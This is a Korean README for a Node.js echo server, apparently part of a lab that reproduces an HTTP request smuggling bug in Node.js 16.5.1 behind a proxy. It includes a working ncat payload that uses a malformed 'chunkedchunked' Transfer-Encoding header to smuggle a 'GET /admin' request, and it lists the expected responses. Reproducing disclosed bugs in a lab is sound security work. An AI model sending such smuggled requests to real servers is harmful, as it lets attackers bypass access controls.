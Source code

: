 # Backend (Node.js 서버) README

요구사항:

- Node.js 16.5.1 (이보다 높은 버전은 파서 버그가 패치되어서 스머글링 불가능)

테스트 서버 실행:

``` console
node app.js
```

밑의 코드는 개발중인 코드고 실제로 동작하는 서버 코드는 이부분입니다:

``` javascript
  let body = [];
  req.on('error', (err) => {
    res.end("error while reading body: " + err)
  }).on('data', (chunk) => {
    body.push(chunk);
  }).on('end', () => {
    body = Buffer.concat(body).toString();
    res.on('error', (err) => {
      res.end("error while sending response: " + err)
    });
   res.end(JSON.stringify({
      "URL": req.url,
      "Headers": req.headers,
      "Length": body.length,
      "Body": body,
    }) + "\n");
  });
```

그냥 요청 URL, Header, Length, Body를 그대로 되돌려주기만 합니다.

로컬에서 실행했을 때에는, Windows Powershell과 [NMap](https://nmap.org/ncat/)의 ncat을 사용해서 [파싱 버그를 재현](https://hackerone.com/reports/1524555)했었습니다.

``` console
echo "GET / HTTP/1.1`r`nTransfer-Encoding: chunkedchunked`r`n`r`n26`r`nGET / HTTP/1.1`r`nContent-Length: 30`r`n`r`n`r`n0`r`n`r`n`r`nGET /admin HTTP/1.1`r`n" | ncat localhost 8080
```

이렇게 요청했을 때 응답이 이래야 합니다:

응답 1번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 06:58:11 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 127

{"URL":"/","Headers":{"transfer-encoding":"chunkedchunked"},"Length":38,"Body":"GET / HTTP/1.1\r\nContent-Length: 30\r\n\r\n"}
```

응답 2번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 06:58:11 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 56

{"URL":"/admin","Headers":{},"Length":0,"Body":""}
```

중요한 건 ATS가 첫 번째 요청을 무시하면서 그걸 노드에 그대로 전달해주는지 마는지네요.
